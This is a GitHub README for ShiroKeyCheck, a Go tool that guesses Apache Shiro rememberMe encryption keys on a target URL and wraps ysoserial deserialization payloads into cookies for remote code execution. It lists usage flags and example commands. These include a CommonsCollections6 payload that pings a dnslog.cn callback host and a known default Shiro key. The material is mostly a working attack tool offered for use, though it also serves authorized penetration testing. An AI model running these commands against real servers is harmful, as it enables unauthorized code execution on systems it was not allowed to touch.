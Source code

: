 # ShirokeyCheck

[中文介绍](README.zh_CN.md)

2022.8.28 Update content:
1. You can now use the "-reqcookie" parameter to customize the "rememberMe" value sent by default in the cookie field of the request header.
2. You can also use the "-respheader" parameter to customize the "rememberMe" value detected by default in the response header
3. Optimize the detection process

Golang development, multi-platform support.

In order to adapt to different targets and different network conditions, a variety of http request parameters have been added, such as: specified request timeout, each request interval, http proxy.

There are 129 keys built in, and two modes of detection, AES-CBC and AES-GCM, are supported by default.

Support to encrypt the payload generated by ysoserial, generate rememberMe field, and use it.

## Usage

```
Usage of ./ShiroKeyCheck:
  -content string
    	POST Method Content
  -interval int
    	Each request interval time(s)
  -key string
    	Specify the key and use CBC and GCM modes for detection
  -m string
    	Request Method (default "GET")
  -mode string
    	Specify CBC or GCM encryption mode (only valid for -ser parameter)
  -proxy string
    	Set up http proxy e.g. http://127.0.0.1:8080
  -ser string
    	Encrypt the bytecode file to generate the RememberMe field
  -timeout int
    	Request timeout time(s) (default 60)
  -u string
    	Target url（Needed）
  -ua string
    	User-Agent (default "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36")
  -reqcookie string
    	Customize the cookie name in the request packet to be detected (Default detection "rememberMe" string) (default "rememberMe")
  -respheader string
    	Customize the header name in the response packet to be detected (Default detection "rememberMe" string) (default "rememberMe")
```

## keyCheck

`ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp` ![img](image/1.png)

### Set proxy and request interval

`./ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp -interval 10 -proxy http://127.0.0.1:7890`

![img](image/2.png)

### Encrypt the payload generated by ysoserial

`java -jar ysoserial.jar CommonsCollections6 "ping 18pa70.dnslog.cn" > aa.txt`

`./ShiroKeyCheck -key kPH+bIxk5D2deZiIxcaaaA== -mode cbc -ser aa.txt`

![img](image/3.png)

## Compilation

```
go build -ldflags="-s -w" -o ShiroKeyCheck main.go
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck.exe main.go
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck main.go
```




